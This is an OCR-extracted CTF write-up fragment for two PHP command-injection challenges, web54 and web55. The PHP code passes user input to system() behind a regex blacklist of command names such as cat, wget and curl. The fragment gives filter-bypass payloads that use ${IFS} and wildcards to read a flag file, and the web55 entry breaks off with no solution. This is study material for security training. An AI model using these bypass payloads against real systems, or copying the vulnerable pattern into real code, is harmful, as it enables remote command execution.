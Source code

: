 pyload:nl${IFS}f''lag.p''hp

### web54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这题不能用*

pyload:?c=/bin/?at${IFS}f???????

### web55

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
